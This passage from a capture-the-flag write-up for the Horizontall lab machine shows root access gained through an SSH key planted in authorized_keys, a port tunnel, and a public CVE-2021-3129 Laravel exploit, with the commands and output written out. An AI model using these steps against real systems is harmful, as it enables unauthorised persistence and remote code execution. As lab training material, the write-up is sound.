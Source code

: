 This Laravel version has a [critical flaw](https://www.exploit-db.com/exploits/49424) that enables RCE.

To access the Laravel instance, we have to first create an SSH tunnel between the target machine and our own one.
First we have to generate our SSH key (in case it's not already created), then append it in the machine's `/opt/strapi/.ssh/authorized_keys` file, enabling us to SSH into the machine as strapi and to tunnel the target machine's port 8000 to our own port 8000.

__TIP__: use this easier-to-use [variant](https://github.com/nth347/CVE-2021-3129_exploit) of the exploit (thanks to nth347 for creating it!). Follow the instructions listed in the README.md to setup the environment for the exploit.

```bash

# FROM YOUR MACHINE
# ------------------
[exyss@exyss ~]$ ssh-keygen -o

[exyss@exyss ~]$ cat .ssh/id_rsa.pub    #Copy this to your clipboard

# FROM THE HORIZONTALL MACHINE
# ------------------

strapi@horizontall:/$ cd 
cd

strapi@horizontall:~$ mkdir .ssh
mkdir .ssh

strapi@horizontall:~$ cd .ssh 
cd .ssh

strapi@horizontall:~/.ssh$ touch authorized_keys
touch authorized_keys

strapi@horizontall:~/.ssh$ cat "{WHAT YOU JUST COPIED}" >> authorized_keys

# AGAIN FROM YOUR MACHINE
# ------------------

[exyss@exyss ~]$ ssh -i ~/.ssh/id_rsa -L 8000:localhost:8000 strapi@horizontall.htb

# AGAIN FROM YOUR MACHINE, ON ANOTHER TAB

[exyss@exyss scripts]$ python laravel_exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

{root flag}

[i] Trying to clear logs
[+] Logs cleared
```